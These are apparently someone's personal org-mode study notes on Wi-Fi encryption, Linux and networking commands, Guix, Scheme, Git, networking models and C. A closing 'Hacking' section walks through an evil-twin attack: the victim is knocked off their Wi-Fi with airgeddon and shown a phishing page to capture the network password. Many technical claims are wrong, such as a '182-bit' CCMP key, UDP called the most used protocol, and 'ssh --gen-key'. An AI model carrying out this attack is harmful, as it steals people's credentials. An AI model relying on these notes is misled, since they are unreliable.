  If CIPHER = CCMP:

  CMP (Cryptography)

  Counter MOde Cipher Block Chaining Message Authentication Code Protocool is an
  encryption protocol designed for Wireless LAN products that implements the
  standards of the IEEE 802.11i amendment to the original IEEE.802.11 standard.
  CCMP is an enhanced data cryptographic encapsulation mechanism designed for
  data confidentiality and based upon the Counter Mode iwth CBC-MAC (CCM Mode)
  of the Advanced Encryption Standard (AES) standard.

  CCMP is the standard encryption protocol for use wit hte Wi-Fi Protected
  Access II (WPA2) standard and is much more secure than the Wired Equivalent
  Privacy (WEP) protocol and Temporal Key Integrity Protocool (TKIP) of Wi-Fi
  Protected Access (WPA). CCMP proides the following security sevices:

  Data confidentiality: ensures only authorized parties can access the
  information.

  Authentication: provides proof of genuineness of the user

  Access control in conjunction with layer management.

  Because CCMP is a block cipher mode using a 182-bit key, it is secure against
  attacks to the 2^64 steps of operation. Generic meet-in-the-midle attacks do
  exist and can be used to limit the theoretical strength of the key to 2^n/2
  (where n is the number of bits in the key) operations needed.

  Known attacks:
  
  For cryptographers, a cryptographic "break" is faster than a brute-force
  attack - i.e, performing one tril decryption for each possible key in sequence
  (see Cryptanalysis). A breack can thus include results that are infeasible
  with current technology.

* Operating Systems
** GNU/Linux
*** Commands

    #+BEGIN_SRC bash

    curl
    ## Is the HTTP tool kit
    id
    ## Informations about groups, or a target and DNS
    whois
    ## Information about a target by its DNS or IP
    ping
    ## Response for a reachable network, and information about it
    dig 
    ## DNS records directly
    host
    ## IPv4, IPv6 and mail of a target
    nslookup
    ## Similar functionalities
    traceroute
    ## Information about a target

    #+END_SRC

**** Networking

   #+BEGIN_SRC bash

   ifconfig ## configure network interface
   route ## show/manipulate the IP routing table
   cat /etc/resolv.conf ## displays DNS information
   cat /etc/network/interfaces ## displays the network interface configuration
   cat /etc/hosts ## static values for hostnames lookups
  'echo "1" > /proc/sys/net/ipv4/ip_forward' ## allows ipv4 forwarding
   iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 9000
   ## Redirects all 80 port traffic to port 9000
    iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT
    --to-port 53
   ## Redirect UDP port
   
   #+END_SRC

   Another ways to set a wireless card on monitor mode is:

     sudo iw dev # to check wireless interfaces.

  sudo ip link set IFACE down

  sudo iw IFACE set monitor control

  sudo ip link set IFACE up

  where IFACE replace with the actual name of your wireless interface.

  sudo iw dev

  It may now show your device to be type monitor.

  To return to managed mode, you can make this:

  sudo ip link set IFACE down

  sudo iw IFACE set type managed

  sudo ip link set IFACE up

  You can also use iwconfig for this:

  sudo ifconfig IFACE down

  sudo iwconfig IFACE mode monitor

  sudo ifconfig IFACE up

  and the same for managed mode.

***** Script to check all up IP addresses on a network
      
   #+BEGIN_SRC bash

   #!/bin/bash

   is_alive_ping()
   {
   ping -c 1 $1 > /dev/null
   [ $? -eq 0 ] && echo Node with IP: $i is up.
   }
   
   for i in 192.168.0.{1..255} 
   do
   is_alive_ping $i & disown
   done

   #+END_SRC

**** Hardware Checking

      Hostnames are important, in /etc/hosts you can change this

       To check every hardware on a GNU/Linux PC use:

       #+BEGIN_SRC bash
       lspci
       ## Every device connected to the pc
       lspci -v 
       ## Devices information
       lspcu 
       ## CPU specific information
       uname -a
       ## System information as hostname, RAM and kernel
       lsusb 
       ## USB devices
       lsb_release -a
       ## Distribution Specific Information
       dmesg
       ## Print or control the kernel ring buffer
       lsmod
       ## Shows the status of modules in the Linux kernel
       ls -lisart /var/log
       ## The location of the actual logfiles

       #+END_SRC

** Guix System

   To install, 'guix install package'
   To upgrade, 'guix upgrade'
   To pull the latest packages upstream, 'guix pull'
  
   'guix pull' a lot

   Guix channels are good for more packages

   Learn some Guile, well, scheme
  
   Read some package definitions, a simple one, and a 'big' program one

  
   - define-public :: Define una variable pública, esto nos permite
                    referirnos a la definición por el nombre.

   - name :: El nombre de el paquete, no debe de ser confundida con el
           nombre de variable con el que le es definido en
           define-public, son el mismo nombre debido a que así deben de
           ser referidos entre ellos. Sin embargo, el nombre de
           'define-public' puede ser diferente.

   - version :: La version de el paquete, debe concordar con el paquete descargado.

   - source :: Aquí, comenzamos a definir el lugar de descargado de el
             paquete, puede ser tanto un página web, como un
             repositorio Git, por ejemplo.

   - origin :: Definimos el origen del cual será descargado el paquete.

     - method url-fetch :: Define que el método utilizado en la
          descarga de este paquete, será mediante una página web, un URL.

   - string-append :: Aquí definimos que la página o URL por la cual
                      será descargado el paquete, utilizando el metodo
                      URL, será la unión de mirrot://gnu/hello/hello-",
                      con 'version', y la '.tar.gz'. Esto quiere decir
                      que. el URL será:
                      mirror://gnu/hello/hello-2.10.tar.gz.

   - sha256 :: Comenzaremos a definir el hash de este paquete. 

   - base32 :: Hash de el paquete, si el hash es diferente, guix no
               instalará el paquete.

   - build-system gnu-build-system :: Procedimientos por los cuales el
	paquete será instalado.

   - sinopsis :: Breve descripción de el paquete.

   - description :: Descripción extendida de el paquete, por si se
                    desea más información, o la sinopsis no fue lo
                    suficientemente clara.

   - home-page :: La página web en donde está alojada el proyecto.

   - license :: La licencia a la cual el proyecto esta sujeto.

   Every package definition will need to 'use' some modules for it to
   be usable and exported, to the 'hello' package:

   (use-modules (guix packages)
		(guix download)
		(guix build-system gnu)
		(guix licenses))

   - use-modules :: Aquí definimos los módulos que son necesarios por el
                  paquete, la razón por la cual la definición de
                  paquete 'hello' no los tiene, es debido a que ya
                  están añadidos.

   - guix packages :: Al importar este módulo, nos da todo lo necesario
                      para un paquete de guix.

   - guix download :: Nos da la posibilidad de usar 'source'

   - guix build-system gnu :: Nos brinda la posibilidad de llamar las
	variables "build-system gnu-build-system", con los cual
	construiremos los paquetes. Existen diferentes métodos de
	construcción, por ejemplo, para la construcción de un paquete
	de emacs, o de ruby, es diferente a un paquete normal.

   - guix licenses :: Nos da la posibilidad de referirnos a las
                      licencias, por ejemplo, gpl3+ es reconocido
                      debido a este módulo. De otro modo, nos daría un
                      error de: dpl3+ unbounded variable.
	       
   To download a package from a upstream mirror: 
   'guix download mirror://gnu/hello/hello-2.10.tar.gz'

   (define-public) is only necessary if you want to make your code,
   well, public, if you only want to install the package, don't use it
   and install it locally.

   Why use guix command instead of wget or curl?, because guix
   download generates a hash. 

   to install from file: guix package --install-from-file=my-hello.scm

   Guix manages a lot of directory 'problems' by creating PATHS

   You can add package definitions to a directory and add that
   directory into the variable 'GUIX_PACKAGE_PATH', and the packages
   will be 'watched' and can be installed using guix package -i

   export GUIX_PACKAGE_PATH=~/Paquetes-de-Guix/ for this ^

   If you want to add a channel, a '.scm' file has to be always in the
   directory '~/.config/guix/'

   (list (channel
          (name 'guix)
	  (url "https://example.org/my-guix.git")
	  (branch "master")))

   Good example for adding a channel by url ^

   (list (channel
          (name 'guix)
	  '(url "file:///home/$USER/donde-estan-tus-paquetes")
	  (branch "master")))

   By file in your pc ^

   Adding a channel will always follow a 'guix pull'

   If the USB has an installation errr, restart, mount /mnt system, fix
   /etc/config.scm if necessary, and run:

   'herd start cow-store'
   'guix system init /mnt/etc/config.scm /mnt'

   guix environment

   For Bug reporting, mail 'bugs-guix@gnu.org'

   In Bug reporting, you have to add to your message:

   - guix describe :: For reproducibility purposes
   - Related information :: A problem is about the kernel, or it may be
	related? give 'uname -r'
   - What you wanted it to happend :: After what you did
   - What happenned :: The bug itself
** Hyperbola GNU/Linux  

    Hyperbola = Arch snapshots + Parches de Debian y principio de
    desarrollo + GNU FSDG + Campaña de Init Libre + Privacidad + LTS +
    Stability

    Hyperbola is LTS and uses Debian patches as well as having the
    versatily of archlinux, so the installation isn't simple

    Hyperbola is libre and also keeps a good filosofy, and uses openrc
    as init system since systemd breaks compatibility. As well as
    having a good look for privacy and minimalism on its packages, so
    they use xenocara instead of xorg since xenocara is 'stable' and
    some other reasons, as well as they plan to move from pulseaudio to
    sndio, since sndio has more support, is more stable and doesn't
    break compatibility as pulseaudio
* Programming
** Scheme

   Everything is scheme is parenthesis, for example, to display
   something:

   (display (string-append "Hello " "Guix" "\n"))

   string-append 'combine' strings, you can also just put "Hello Guix"
   without the string-append parenthesis.

   For an anonymous function, one that will be executed once, use
   lambda:

   ((lambda (x) (* x x)) 3) defines the function that multiplies 3 or
   the number added, the result, 9

   Variables are defined by the '(define)' parenthesis

   (define a 3) defines the variable 'a' as 3

   (define square (lambda (x) (* x x))) defines a variable that returns
   the number given * 2, su using (square a) gives us 9
  
   A list can be defined using (list)

   (list 2 a 5 7) gives us 2, 3, 5 and 7 if a = 3

   If you don't want the 'a' variable, you can use quote, which tells
   scheme to not evaluate

   '(list 2 a 5 7) gives us 2, a, 5 and 7

   If you want to just evaluate specific thinks, use quasiquotes:

   `(list 2 ,a 5 7), this will evaluate everything after the ','

   To defines several variables, use let
  
   (let (x 2) (y 3)) defines two variables, you can also use let's
   brother 'let*'. which allows use keywords and optional arguments in
   the variables
* Emacs
** Org-mode

   If we want to make a presentation in org and export it to PDF, we
   can use beamer, which allows us to make different diapositives:

   We'll have to install texlive in our distributioon, as well as know
   that every '*' or tree of org will be considered a diapositive.

   The org file should have this at the beginning for it to export
   correctly:

      #+BEGIN_SRC 

    #+options: ':nil *:t -:t ::t 
    #+options: <:t 
    # #+options: H:3 # Este parámetro corrije Outline pero daña títulos y diap
    #+options: \n:nil
    #+options: ^:t
    #+options: arch:headline 
    #+options: author:t
    #+options: broken-links:nil c:nil creator:nil d:(not "LOGBOOK") date:t e:t
    #+options: email:t f:t inline:t num:t p:nil pri:nil prop:nil stat:t tags:t
    #+options: tasks:t tex:f timestamp:t title:t toc:f todo:t |:t
    #+title: Título de la presentación
    #+subtitle: Descripción breve de la presentación
    # ¡Al gusto del contador y del gerente!
    #+author: Autor de la presentación
    #+date: Fecha de la presentación
    #+email: E-mail de el autor
    #+language: es
    #+select_tags: export
    #+exclude_tags: noexport
    #+creator: Emacs 26.2 (Org mode 9.2.5)
    #+startup: beamer
    #+LaTeX_CLASS: beamer
    #+LaTeX_CLASS_OPTIONS: [bigger]

    #+END_SRC

   When we want to look how is it going, use C-c C-e l P and it will
   export the file to pdf

   Adding an image to an org file is as simple as using:
  
    #+BEGIN_SRC

    [[./image.png]]

    #+END_SRC

    This way, we'll refer to a file in the directory the org file is
    in, doesn't matter if it is .png or .jpg

* Git

  Git is wonderful way of keeping track of a project, guix is inspired
  by it

  To clone a repository over SSH, use:
  
  git clone ssh://$USER@$IP:$PORT/home/$USER/git-repo

  If you want a directory of a project to be 'gitted', just run inside
  that directory:

  git init .

  This will make all the git commands available for that directory

  git status gives a brief look of changes on your project

  'git add .' will add all the folder to git, so you can also specify
  which files.

  'git commit' makes git to update and add any files of the 'git add'
  command to a commit

  Say your lastest commit removed a file that you know it, in order to
  retrieve it, we should pass to an older commit:

  'git branch' to check which branch are we in, normally 'master'
  'git log' will show us a log of any changes in the project
  'git checkout $HASH' where hash is the hash of the commit that
  stills have the file we want, we see this with the 'git log' command
  When we are now in the commit, we can copy the file and put it in
  another folder
  Now 'return' to the latest branch using the 'git log' 'git checkout
  $HASH' combination again.
  Copy the file you want to the directory again, and now just 'git add
  .' and 'git commit'.

  When doing a new commit, git will ask you who you are, and you'll
  have to use these two commands, or just the email part:

  git config --global user.name "$NAME"
  git config --global user.email "$EMAIL"

  This will say to git, that every 'gitted' file on the pc will be for
  that name and that email.

  If you don't want to use always this identificator, remove the
  '--global' option

  This will allow to identify different users in one project every
  time a commit is made, so you now know which user made the commit

* Tips

  In the internet, is important to always check that the devices in
  place are in the same network, checking its IP addresses

  When working with Printers, always search for the manual and
  troubleshooting information

* Networking  

  Two types of protocols:

  - Stateless Protocols :: Manages every tranference individually, is
       lighter and simpler to manage

  - Stateful Protocols :: More advanced, every 'simple' transference
       is made as a group of larger transferences

  If you can't get into a network, another aproach is to make a client
  of that network to connect to a network you made, this is called an
  evil twin attack 'creating an identical network to what the client
  expects', we can make this using airgeddon 

  The IP of a modem will normally be:

  192.168.(network).1, for example:
  192.168.1.1 or 192.168.100.1

  End-to-End communication is the principle behing any network
  communications, transfering data from one origin to a destination

   To check every network IP address on a network to see who is UP,
   use the script:


   The DoD model is a model for communication on networks and the
   internet, designed by the Departament of Defense of USA

   1. Application layer :: Browsers, interaction with the user

   2. Transport Layer :: Sets up network connections depending on the
        protocol, called sessions for better management, and sends the
        packet to its destination as fast as possible, using IP
	
   3. Internetwork Layer :: Adds information about the source and
        destination addressess, and where the packet begins and
        ends. o

   4. Network Access Layer :: Low-level physical network that yuo use
        to connect the internet. Is the Ethernet cable and network
        interfaces Card (NIC), or the Wireless Card and Access Point
        (AP). It handles the lowest level, ones and zeroes as they go
        from one point to another, that's why the internet can work
        from cable or from WiFi without a problem

   The IP protocol doesn't care about the package of its state, its
   work is to get the packet to its destination as fast as possible.   

   UDP, the most used protocol in the
   internet, adds another 'wrapping' the outside of the package,
   with instructions about which package it is, the order and
   making sure the package got to the destination and whther the
   package is intact
   
   When sending a package on the internet, TCP bracks up that
   letter into segments, small chunks that are consecutively
   numbered, with a little bit of error checking code at the edn,
   if a packet gets corrupted, TCP request retransmission
	
   UDP, the second plase, doesn't care about if the package is
   correctly received, it just shots datagrams to the target, which
   are similar to segments, but with less optins and without the part
   where it checks if yuo received it or the order.

   Some application layer protocols are:

   File Transfer Protocol (FTP) is used for the transmission of files
   between two devices. Using one port to deliver data, and another to
   send control signals. Its ports are 20 and 21. Uses TCP
   
   Hyper-Text Transfer Protocol (HTTP) is used to transfer HTML files,
   which are the body of web pages. Uses TCP with ports 80. HTTPS, its
   more secure variant which encrypts network traffic uses TCP port
   443

   Simple Mail Transfer Protocol (SMTP) sends mail, uses TCP port 25

   Domain Name Service (DNS) helps us getting the IPs of a server by a
   domain name. uses port UDP 53

      Some Transport layer protocols are:
   
   TCP or Transmissin Control Protocol establishes a logical connection (a
   sesssion) between two hosts on a network. It sets up this conncetion using
   the three-way handshake.

   1. When my computer wants to connect with yours, it sends a SYN packet, which
      is basically saying, "Let's synchronize clocks so we can exchange traffic
      with timestamps."

   2. Your computer (if it's going to accept the connection) responds with a
      SYN/ACK acknowledgment packet.

   3. My computer seals the deal with an ACK packet, and we're connected.

   But this happends only with TCP. Instead, UDP or User Datagram Protocol is a
   transport protocol that doesn't even care if you ave a connection. It's like
   a fire hose: if you catch the stream you catch it, if you don't, you don't.
   This makes UDP very fast, so it's useful for things like streaming voice and
   video, where missing a single frame doesn't matter much, or online gaming,
   where missing a single frame doesn't matter much.

   The Internet layer protocol of course is of course IP, which servers as a
   universal protocol to allow any two computers to communicate through any
   network at any time. 

   Internet Control and Management Protocol (ICMP)

   ICMP is the protocol that the network devices and network administrators use
   to troubleshoot and maintain the network. It includes things like ping
   (Pakcet InterNet Grouper) ad similar commands that test the network and
   report errors. Because people have used things like ping flood to bring down
   hosts and networks, most systems limit ICMP to one response per second.

   To summarize, ports and protocols come together like this:

   The part where IP goes and 'traduces' to physical devices is by the ARP or
   RARP protocols, to IEEEE 802.2 LLC, after this, it can be traduced to:

   - 802.3 Ethernet
   - 802.5 Token Ring
   - 802.11 Wireless LAN
   - 802.15 WIreless PAN
   - 802.16 WiMAX

   Some common ports are:
   
   |  Number | Keywords    | Description                     |
   |---------+-------------+---------------------------------|
   |       5 | rje         | Remote Job Entry                |
   |       0 |             | Reserver                        |
   |     1-4 |             | Unassigned                      |
   |       7 | echo        | Echo                            |
   |       9 | discard     | Discard                         |
   |      11 | systat      | Active Users                    |
   |      13 | daytime     | Daytime                         |
   |      15 | netstat     | Who is UP or NETSTAT            |
   |      17 | qotd        | Quote of the Day                |
   |      19 | chargen     | Character Generator             |
   |      20 | ftp-data    | File Transfer [Default Data]    |
   |      21 | ftp         | File Transfer [Control]         |
   |      22 | ssh         | SSH Remte Login Protocol        |
   |      23 | telnet      | Telnet                          |
   |      25 | smtp        | Simple Mail Transfer            |
   |      37 | time        | Time                            |
   |      39 | rIp         | Resoce Location Protocol        |
   |      42 | nameserver  | Host Name Server                |
   |      43 | nicname     | Who Is                          |
   |      53 | domain      | Domain Name Server              |
   |      67 | bootps      | Bootstrap Protocol Server       |
   |      68 | bootpc      | Bootstrap Protocol Client       |
   |      69 | tftp        | Trivial File Transfer           |
   |      70 | gopher      | Gopher                          |
   |      75 |             | any private dial out service    |
   |      77 |             | any privae RJE service          |
   |      79 | fger        | Finger                          |
   |      80 | www-http    | Word Wide Web HTTP              |
   |      95 | supdup      | SUPDUP                          |
   |     101 | hostname    | NIC Host Name Server            |
   |     102 | iso-tsap    | ISO-TSAP Class 0                |
   |     110 | pop3        | Post Offce Protocol - Version 3 |
   |     113 | auth        | Authentication Service          |
   |     117 | uucp-path   | UUCP Path Service               |
   |     119 | nntp        | Network News Transfer Protocol  |
   |     123 | ntp         | Network Time Protocol           |
   |     137 | netbio-ns   | NETBIOS Name Service            |
   |     138 | netbios-dgm | NETBIOS Datagram Service        |
   |     139 | netbios-ssn | NETBIOS Session Service         |
   | 140-159 |             | Unassigned                      |
   | 160-223 |             | Reserved                        |

   When talking about encapsulation in networking, we refer to the
   series of tranformation the data has to go into in order for it to be
   transferred correctly, a 1 MB file is very heavier and has to be
   separated and that separated data encapsulated in order for it to
   be able to transfer through a network
   
   To this new segments of the 1 MB file, the protocol (TCP or UDP)
   adds header of information to each segment, and the order of these
   if it is TCP

   This segments are transfered into the network layer which adds
   another header which containt the source and destination (IP), and
   some meta information

   The final layer is when the actual transmission of data occurs

   When the data reach to its destination, it has to be
   decapsulated. Each layer passes information to the next layer up to
   the stack, it remvoes the information contained in the header
   placed there by that lower layer

   Media Access Controller (MAC) is the physical address of the network
   card and supposedly can't be changed

   netstat command tells you about network statistics, with whom
   you're connected, how long networking has been up, and so forth, if
   you want to see the connections displayed in a numeric form, use
   the option '-n'

   The OSI model is a layered model with handful of simple
   rules. Similar functions are grouped together in the same layer,
   and every layer is serviced by the layer beneath it, and servers
   the layer above it.

   This layered model is a good idea, because since every layer does its own
   communication, new developments in any one layer don't breadk any of the
   other ones. This feature alone may explain the internet boom, with new
   applications and services appearing almost each day.

   Besides the two rules of this OSI model, we've already discussed (similar
   functions are grouped, and every layer is serviced by the layer beneath and
   serves the layer above it) this standard has one more strict rule. Every
   layer involved in communication from one computer communicated directly with
   the same layer on the other computer. This means that when you type
   www.google.com in your browser, there is a direct interaction etween your
   computer's Layer 7 interface (your web browser) and Google.com's web servers
   (also a Layer 7 interface), and that the same can be said of any other layer.
   
   First, comes the application Layer, responsible for direct interaction
   between applications and the user interface to the paplicaiont, for instance
   the use of a web browser like IE or Firefox.

   Then, the Presentation Layer, responsible for guaranteeing that data is
   exchanged in a way that is comprehensible between both parties. In some
   services that use a form of encryption, the encryption happends at the
   presentation layer.

   The Session Layer, responsible for dialogue control between two computers.
   Basically it establishes, manages and terminates all connections that happen
   between the computers.

   Transport Layer, provides transparent transfer of data between computers,
   providing reliable data transfer services to the upper layers. This means
   that it is responsible for assembling all data in smaller portins that can be
   carried reliably on a data network. If a packet is lost or not receive, it is
   the transport layer's job to make sure that single packet is retransmitted
   and then reassembled in the correct order.

   Then, the Network layer, which is responsible for the addressing part of the
   connection. Not only on ensuring that each address is unique on the network,
   but also on making sure that whatever path is available (whether a good or a
   bad one), it always delivers the information where it needs to go, and that
   our information will be sent from hop to hop until it reaches its final
   destination.

   The Data Link Layer, was designed to deal with ensuring the pysical layer can
   recover from errors that might happen and to deal with different connecting
   mediums. Basically it prepares (encapsulates) data so that it can be
   transmitted over whatever physical means are necessary (radio waves,
   fiber-optic, cable, copper).

   Then, the Physical layer defines the physical specifications of the devices
   and what needs to be done in order for the information to be transmitted over
   the selected medium. For a WiFi connection, this is a radio signal; for a
   fiber connection it's the light being sent; or for a copper connection the
   electronic signal being sent on the wire.

   The seven layers comprise everyting that is needed for the reliable
   communication.

   The Hypertext part of the HTTP protocol refers to the non-linear way you read
   it. You normally read in a linear fashion: page 1 then page 2. Hypertext lets
   you look at information in a non-linear way. You can jump around from topic
   to topic, learning as you go, then retrace your steps and maybe go see other
   information before you finish the parent article. That's the difference
   between hypertext and plain text.

   There are two parts to email: SMTP (Simple Mail Transfer Protocol), which
   send mail, and the mail server, either POP (POST Office Protocol) or IMAP
   (Internet Message Access Protocol), which retrrieves your email.

   The passwords are generated by the 'http.request.method ==POST' command of
   HTTP, so in wireshark you could search for that.

   ISPs

   IN order to access the Internet. You need to access a server that will
   connect your computer to the internet. The server does all the heavy work,
   and is on all the time. The server is run by an Internet Service Provider
   (ISP).

   An ISP has a point-of-presence on the internet that is constant, and it has
   servers that run services you can use. But you can run these services on your
   own, too. For example, you can run a mail server on your local computer, but
   it will require you to have your computer powered up and connected to a
   network all the time, just waiting for those bried moments when information
   has to be exchanged. An ISP, however, consolidates the efforst of a large
   number of users, so the mail server is working all the time, instead of
   sitting around, doing nothing. The ISP's computer use a high speed connection
   to connect to a Network Acces Point (NAP). These NAPs then interconnect with
   each other through ultra-high speed connections called backbones. All these
   things together are the internet.

   HTTP, the acronym for Hypertext Transfer Protocol, is located on the top of
   TCP/IP stack as is defined in two main RFC:

   - 1945 for 1.0 (based from 0.9).

   - 2616 for 1.1.

   There are some substantial upgrades and differences from 1.0 to 1.1 for
   Extensibility, Caching, Bandwidth optimization, Network connetion management,
   Message transmission, Internet address conservation, Error notification,
   Security, integrity, and authentication, Content negotiation. Differences
   between 1.0 and 1.1 are useful to obtain information about a web server.

   Basically HTTP is a stateless protocol in which Client sends an HTTP request
   to Server, which send an HTTP response: the Request/Response
   paradigm.

   Hubs, Routers and Switches:

   Each the Hub and the Switch serve as a central connection for all of your
   network equipment and handles a data type known as ethernet frames. Frames
   carry your data. When a frame is received, it is transmitted on to the
   physical port the destination PC is plugged into. The big difference between
   these two devices is in the method for delivering frames.

   In a Hib, incoming frames are broadcasted to all ports. It doesn't matter
   that the frame is only destined for one machine. The hub as no way of
   distinguishing which port a frame should be sent to. Passing it along to eery
   port ensures that it will reach its intended destination. This puts a lot of
   traffic on the network and can lead to poor network response times. Since a
   hub broadcasts every packet to every machine or node on the hub, a filter in
   each computer discards packets not addressed to it. A packet sniffer disables
   this filter to capture and analyze some or all packets traveling through the
   hub, depending on the sniffer's configuration.

   A switch, on the other hand, keeps a record of the Media Access Control (MAC)
   or physical addressess of all the devices connected to it. With this
   information, a switch can identify which system is on which port. So when a
   frame is received, the switch knows exactly which port to send it to, without
   significantly increasing network response times. That's why a switch is
   considered to be a much better choise than a hub. Rather than a central hub
   that broadcasts all traffic on the network to all machines, the switch acts
   like a central switchboard. It receives packets directly from the originating
   computer and sends them directly to the machine to which they are addresses.
   This makes sniffing packets on a switch much more difficult. You can only see
   traffic that is intended for your machine - unless you use more advanced
   techniques such as ARP poisoning (see Ettercap above or Cain and Abel for a
   Windows tool).

   Routers are completely different devices. Where a hub or switch is conerned
   with transmitting ethernet frames at the local Layer 2, a router's jon, as
   its name implies, is to route IP packets to other networks, which is a Layer
   3 operation. A packet contains the source address it came from and the data,
   and the destination address of where it's going.

   A router is designed to join two or more networks, commonly two Local Area
   Networks (LANs) or Wide Area Networks (WANs), or a LAN and its ISP's network.
   Routers are located at gateways, the places where two or more networks
   connect. Using headers and forwarding tables, routers determine the best path
   for forwarding the packets. Routers use protocols like ICMP to communicate
   with each other and configure the best route between any two hosts. The same
   packet sniffing issues apply to routers that apply to switches.

* netcat

  The TCP/IP tool kit

* curl

  The HTTP tool kit

* Proxy

  Like OWASP ZAP or Burpsuite free

* Openssh

   In controlling a PC remotely is needed (target is with GNU/Linux)
   the best is to use ssh, we can also copy files and run
   commands. Install openssh in the target and the pc your will use to
   control remotely the server

   We'll want to generate a public key in order to connect securely
   without password, adter installing openssh run:

   ssh --gen-key

   To copy data using ssh, use the 'scp' command:

   scp -P $PORT $FILE $IP://home/$USER/Documents

* Computing

   Registers are small memory spaces located in the CPU that stres and
   manipulate data, some operations can only be done in the context of
   registers, for example, read/write memory or arithmetic

   Most operations on a computer bases on moving data from the RAM or
   from the hard drive to registers to be processed. Resgisters are
   quick, but limited, depending on the arquitecture can be from 6
   to 32.

   Since the register is limited is why we use RAM and long term data
   (hard drive)

   RAM is needed as a middle between the hard drive and the registry,
   moving data from the hard drive to the registry is slower since is
   long term data, so the hard drive gives the RAM data that it won't
   save, as application processes and such, and the RAM works hand by
   hand with the registry as the registry ends processes sended by the
   RAm and request more

* Computer Science

  Learning the Basics, Java:

  All you need to know, is that we have variables, condicional
  statements to do different things things based on this variables, we
  have functions, we have the ASCII table o represent characters with
  numbers and we have a race, which can store multiple variable, kind
  of.

  You an put objects inside another objects, once you are familiar
  with data structure, is when your coding begins to be fun.

  In the C language you got to do everything yourself.

  Low level Programming: The C language.

  allocate memory with the size of int times 3:

  #+BEGIN_SRC c

    #include<stdio.h>
    #include<stdlib.h>

    int main() {
      int *num = malloc (sizeof (int) * 3);
      ,*num = 5;

      printf("%d\n", *num);
      return 0;
    } 

  #+END_SRC

  We've created a pointer, if we want access this block (8001), all we
  have to do is we have to say:

  Pointer plus 1, or pointer plus 2.

  | Pointer | 8000 |
  |---------+------|
  | ------> | 8001 |
  | ------> | 8002 |
  | ------> | 8003 |

    #+BEGIN_SRC c

      #include<stdio.h>
      #include<stdlib.h>

      int main() {
	int *num = malloc (sizeof (int) * 3);
	num[0] = 5;
	num[1] = 30;
	num[2] = 67;

	printf("%p -> %d\n", num, *num);
	printf("%p -> %d\n", num+1, *(num+1));
	printf("%p -> %d\n", num, *(num+2));
  
	//  printf("%d\n", *num);
	return 0;
      } 

  #+END_SRC

  num[1] line and printf num+1 line are the exact same thing.

  Every other language is built on top of this, so once you understand
  how C works, you can do everything.
  
  Data Structures and String, The C language:

  Here's a list structure which contains a function pointer, a pointer
  to a function, so it's kind of the same as an object in Java, we
  have varaibles and we have functions, it's at a lower level now.

  #+BEGIN_SRC c

    #include <stdlib.h>

    typedef struct listHead{
      Node *head;
      Node *tail;
      void (*deleteNode)(void *toBeDeleted);
      int (*compare)(const void *first,const void *second);
      void (*printNode)(void *toBePrinted);
    } List;  

  #+END_SRC

  And they I had to do:

  #+BEGIN_SRC c

    if(list->head == NULL) {
      list->head = add;
      list->tail = add;
    }  
    // If list is empty, set head and tail

  #+END_SRC

  In C, strings do not exist, you create an array of characters, and
  we're gonna call it string sieof char times 10, the last character
  is a backslash 0:

  #+BEGIN_SRC c

    #include<stdio.h>
    #include<stdlib.h>

    int main() {
      char *str = malloc(sizeof(char) * 10);
      str[0] = 'h';
      str[1] = 'e';
      str[2] = 'l';
      str[3] = 'l';
      str[4] = 'o';
      str[5] = '\0';
      printf("%s", str);
      return 0;
    }  

  #+END_SRC

  Nobody does it this way, instead we use:

  #+BEGIN_SRC c

    #include<stdio.h>
    #include<stdlib.h>

    int main() {
      char *str = malloc (sizeof(char) * 10);
      strcpy(str, "hello");
      printf("%s", str);
      return 0;
    }  

  #+END_SRC

  And it does the same thing.

  Assembly Programming, The 68000 microprocessor:

  Java is pretty high level, you break it down it to C, a low level
  and understand it, and now you got to write assembly, and assembly
  can run on a chip, yuo need to understand hexadecimal.

  This is the assembly equivalent of some num pushing.

  Addition/Subtraction an even lower level:

  A minus B is the same as A plus negative B, how we represent B in a
  negative form?, all you need to know is flip all the bits and one
  (Two's complement).

   Whetever a number starts with 1, it's negative

   Everything is addition:

   Every data structure is built on top of pointers and poinrters
   operate using addition and substraction. It's implemented by
   addition, so all we have is addition.

   A full adder involves two and gates or gate xor xor and then these
   gates are implemented using transistors (full adder). As AND, OR,
   NAND, NOR or NOT.

* Hacking
** Gathering information

   We should generate a report of any information we have about our
   target

   If you have an IP address, you can check its OS and ubication
   
   PaginasBlancas for getting phone numbers
   
   Every interaction shows information about the PC, because the
   protocols always have to add a 'from who' part in the transfering
   file, being it through TCP or UDP
   
   portalhacker.net
   
   Lbrary
   
   Cybrary
   
   Redirect port 53 to port 53
   
   port 80 = TCP
   port 53 = UDP
   
   Sniffing the Connection Between you and the HHS HHTP Server   
   
   Once you have the IP address, you can access the records of the various
   members of the Number Resource Organization (http://www.arin.net/,
   http://www.ripe.net/, or http://www.apnic.net/), to gain insight about how IP
   addresses are distributed.
   
   Identifying the wner of a domain is:

   - Identifying the owner, usually full name

   - Contact information, which may include street addresses, phone
     numbers and email addresses

   - The DNS server where the doamin is registeres, which may also
     tell you the ISP that serves up the domain

   - The IP address of the server, another potential clue to the ISP

   - Domain name information, like the date it was created, when it
     was updated and when it will expire

   Keep in mind that there are a lot of different domain name registrar, and not
   all whois databases contain the information for all domains. You may have to
   look at more than one whois database to find information about the domain
   that you are investigating.

** Twin Evil Attacks

   When creating an identical network for another network, one must
   know the password or trigger some things that make the user connect
   to our network instead of the one they are already in.

   We'll use airgeddon for this, we'll kick out the user from the
   network they were in, in order for them t oconnect to our identical
   network.

   After they connect to our network, we give the user a phising page
   identical to their router administrator asking them for their
   network credentials.

   In order to be sure that the user actually puts their correct netwrk
   credentials, we have to capture a handshake and compare.

   First, we will have the victim which is conneted to an AP connected
   to the internet we don't know the password.

   We will put in the middle of the victim's communication with the AP
   and terminate this connection, and force them to go through our
   phising page.

   To disable this connection, we'll need a wireless network adapter
   with the ability of inject packages to tell the victim that the AP
   wants to disconnect from the network, and the AP that the victim
   wants to disconnect.

   This confusion creates an inability for these two to exchange
   information

   At this point, we'll create a network with the same credentials of
   the AP, except for the security method which will be free so the
   user doesn't have any problem connecting to it.

   If we knew the password, we could redirect a lot of network traffic,
   since this is not the case, we have to do something in order for the
   victim to give us the password.

   We'll display a phishing page for this.

   Once a password is given, we'll compare the hash with a previous
   captured hash, and if it is wrong, we won't give them access to their
   network.

   This attack is automated and a good attack for people who aren't
   good with technology.

   The evil twin attack is a social engineering attack.
** Infoga

   A good tol to check for email addresses using a domain

** IpLogger

   Is a tool that allows us to modify a link, so anyone who enters the
